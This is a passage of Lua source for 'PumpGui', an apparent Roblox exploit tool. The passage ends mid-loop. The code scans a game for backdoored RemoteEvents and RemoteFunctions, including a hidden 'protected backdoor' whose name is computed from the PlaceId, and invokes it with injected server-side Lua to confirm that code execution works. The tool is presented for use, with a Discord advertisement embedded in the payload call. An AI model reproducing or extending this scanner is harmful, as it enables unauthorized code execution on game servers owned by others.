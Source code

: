 	function notify(text)
		game:GetService('StarterGui'):SetCore(
			"SendNotification",
			{
				Title = "PumpGui",
				Duration = 6,
				Text = text
			}
		)
	end
	
	
	if _G.PumpGui_Logs_Disabled then
		notify('Logs disabled :(')
	end
	
	makeVisible(GUI, false)
	GUI.Scanner.Visible=true
	GUI.Visible=true
	
	function generateName(lenght)
		
		local text=''
		
		for i=1,lenght do
			text=text..alphabet[math.random(1,#alphabet)]
		end
		
		return text
		
	end
	
	local code
	function findRemote()
		
		local timee=os.clock()
		
		local remotes={}
		
		local protected_backdoor=game:GetService('ReplicatedStorage'):FindFirstChild('lh'..game.PlaceId/6666*1337*game.PlaceId)
		if protected_backdoor and protected_backdoor:IsA('RemoteFunction') then
			while true do
				code=generateName(math.random(12,30))
				if not remotes[code] then break end
			end
				spawn(function() protected_backdoor:InvokeServer('PumpGui join today!! discord.gg/XXqzxT7E5', "a=Instance.new('Model',workspace)a.Name='"..code.."'") end)
				remotes[code]=protected_backdoor
			end
		
		for i,remote in game:GetDescendants() do
			
			-- Validation Checker
			
			if not remote:IsA('RemoteEvent') then 
				if not remote:IsA('RemoteFunction') then continue end
			end
	